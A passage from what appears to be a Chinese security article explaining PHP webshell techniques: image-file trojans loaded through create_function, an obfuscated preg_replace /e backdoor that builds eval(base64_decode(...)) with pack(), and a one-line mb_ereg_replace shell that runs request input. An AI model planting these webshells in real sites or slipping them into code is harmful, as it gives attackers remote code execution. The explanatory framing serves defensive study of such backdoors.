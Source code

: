 但是这种方法的利用有一个问题，不能像include那样有兼容性，include的情况是允许include进来的语句有错误，PHP会忽略这些错误，而去执行include进来的有效PHP代码

而create\_function('',file\_get\_contents('/hacker.gif')); 这种方法不允许图片中有非法数据(其实就是真实的图片数据)，否则就会出现解析错误，所以黑客只能把纯的木马脚本保存成图片格式而已，这样就可能导致无法绕过图片上传防御机制&#x20;

对于图片木马需要明白的是

1. short\_open\_tag = On\
   由于jpg、gif等格式的图片中，出现这种字符的频率很高，很容易造成PHP解析错误
2. short\_open\_tag = Off\
   这种情况下，图片WEBSHELL的运行较稳定，黑客插入的能够得到稳定的执行

### 0x8: preg\_replace的"/e"执行特性

```php
<?php
    $subject='any_thing_you_can_write';
    $pattern="/^.*$/e";
    $payload='cGhwaW5mbygpOw==';
    //cGhwaW5mbygpOw==: "phpinfo();"
    $replacement=pack('H*', '406576616c286261736536345f6465636f646528')."\"$payload\"))";
    //406576616c286261736536345f6465636f646528: "eval(base64_decode(";
    preg_replace($pattern, $replacement , $subject);
?>

```

PHP [pack()](http://www.w3school.com.cn/php/func\_misc\_pack.asp) 函数，基本上和数据类型的转换是一个类型的函数&#x20;

[preg\_replace](http://cn2.php.net/manual/zh/function.preg-replace.php) — 执行一个正则表达式的搜索和替换&#x20;

```php
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) 

# 搜索subject中匹配pattern的部分， 以replacement进行替换。 当使用e修饰符时, 
# 引擎会将"结果字符串"作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。
```

这个webshell的利用方式的核心在于:&#x20;

1. 这个PHP函数: preg\_replace，它完成了eval的功能&#x20;
2. 这个pack函数，它完成了eval(base64\_decode(...和shellcode\_payload的拼接

preg\_replace还有另一个变种，mb\_ereg\_replace

```php
<?php
  mb_ereg_replace('.*', $_REQUEST['op'], '', 'e');
?>
#  http://php.net/manual/zh/function.mb-ereg-replace.php
```

PHP PCRE的模式pattern的分界符比较灵活，当使用 PCRE 函数的时候，模式需要由分隔符闭合包裹。分隔符可以使任意非字母数字、非反斜线、非空白字符

1. 获取preg\_replace的参数1
2. 开始逐字符扫描，跳过空格，直到匹配到第一个非空格字符
3. 判断当前字符是否是字母数字、反斜线，这些字符是非法的
4. 将第一个成功匹配的字符当成start\_delimiter，继续向后搜索，直到搜索到和start\_delimiter对应的结束标记end\_delimiter
5. 从end\_delimiter位置开始，继续向后搜索，忽略遇到的空格
6. 检测是否出现e字符
